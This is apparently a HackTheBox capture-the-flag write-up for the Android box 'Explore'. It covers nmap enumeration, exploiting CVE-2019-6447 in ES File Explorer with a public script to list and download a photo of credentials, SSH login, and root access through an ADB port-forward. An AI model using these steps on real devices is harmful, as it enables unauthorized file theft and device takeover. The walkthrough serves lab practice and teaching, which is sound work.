 # Explore - Android (Easy)

## Summary
This is an Android box on HackTheBox (HTB). It is currently marked as 'Easy' and aims to exploit a vulnerability in ES File Explorer. This allowed access to files off a mobile and subsequent access  to files/photos, one allowing me to grab a password scribbled on a note, saved as an image. I acted on this by SSH'ing as the user and thereby access the Android Debug (ADB) service, which allowed me to escalate permissions to gain root level access. 

## Enumeration

### Nmap Scan(s)

```
Nmap -sV Scan

nmap -sV 10.10.10.247 -vv            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 03:07 EDT

Not shown: 998 closed ports
Reason: 998 conn-refused
PORT     STATE    SERVICE REASON      VERSION
2222/tcp open     ssh     syn-ack     (protocol 2.0)
5555/tcp filtered freeciv no-response
1 service unrecognized despite returning data

Scanning All Ports

nmap -p- 10.10.10.247 -vv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 03:27 EDT
Initiating Ping Scan at 03:27
Scanning 10.10.10.247 [2 ports]

Scanned at 2021-10-21 03:27:07 EDT for 50s
Not shown: 65530 closed ports
Reason: 65530 conn-refused
PORT      STATE    SERVICE      REASON
2222/tcp  open     EtherNetIP-1 syn-ack - SSH
5555/tcp  filtered freeciv      no-response - ADB. Android Debug Bridge
36135/tcp open     unknown      syn-ack
42135/tcp open     unknown      syn-ack
59777/tcp open     unknown      syn-ack - ES File Explorer
``` 

### Exploring ADB as an option - will be coming back to ADB

```
Android Debug Bridge version 1.0.41
Version 28.0.2-debian
Installed as /usr/lib/android-sdk/platform-tools/ad
```

[ES File Explorer 4.1.9.7.4 - Arbitrary File Read](https://www.exploit-db.com/exploits/50070)

I ran the following Python script to list 
```
python3 50070.py listPics 10.10.10.247 - list images present

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg - **seemed interesting**
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```

python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg - download file to local machine

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

![Kristi's Password](Images/Kristi's_Password.png)

## Connecting to SSH

After SSH'ing to Kristi's account, I was able view the `user.txt` flag in the `/sdcard` directory.

![SSH Connection](Images/SSH_Connection.png)
![user.txt](Images/user.txt.png)
## PrivEsc to gain root

I re-ran SSH on Kristi's account on port 2222 to set up port forwarding 
![Port Frowarding](Images/Port_Forwarding.png)
```
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555   
```

This allows me to connect to ADB, which offers a shell which can be leveraged to in turn, get the `root.txt` flag in the `/data` directory

![ADB Connection](Images/ADB_Connection.png)

![ADB Connection 2](Images/ADB_Connection_2.png)

![root.txt](Images/root.txt.png)

![Completion](Images/Completion.png)
